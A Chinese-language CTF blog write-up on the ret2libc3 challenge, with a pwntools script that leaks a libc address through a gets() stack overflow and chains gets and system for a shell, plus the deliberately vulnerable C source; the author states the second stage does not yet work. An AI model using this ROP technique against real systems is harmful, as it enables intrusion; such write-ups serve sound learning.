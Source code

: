 ```yaml
---
layout:     post
title:      ret2libc3-待续
subtitle:   解题思路
date:       2018-07-09
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



## 分析过程

程序分析

用ida打开ret2libc3，发现gets函数存在溢出



## 解题思路

leak函数地址，找到libc的基地址



![image-20180912132338503](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-12-071859.png)





exp

第一次send之后，ebp和esp已经改变，第二次send的时候，溢出点不再是112，问题未解决

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
    sh = remote('127.0.0.1', 4444)
else:
    sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
libc = ELF('./libc.so')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
#gets_addr = ret2libc3.symbols['gets']

payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

#print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])

# readelf -s libc.so | grep 'start_main'
libc_start_main = libc.symbols['__libc_start_main'] 
libc_system = libc.symbols['system']
libc_base = libc_start_main_addr - libc_start_main
#print hex(libc_base)
system_addr = libc_base + libc_system

print "get shell"
gets_addr = ret2libc3.symbols['gets']
pop_ebx_ret = 0x0804841d
buf = 0x0804b000 - 0x100 # cat /proc/`pidof ret2libc3`/maps

#raw_input('#')
payload = flat(['A' * 112, gets_addr, pop_ebx_ret, buf, system_addr, 0xdeadbeef, buf])
sh.sendline(payload)

sh.interactive()
```



ret2libc3.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        puts("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("No surprise anymore, system disappeard QQ.\n");
    printf("Can you find it !?");
    gets(buf1);

    return 0;
}
```



## 总结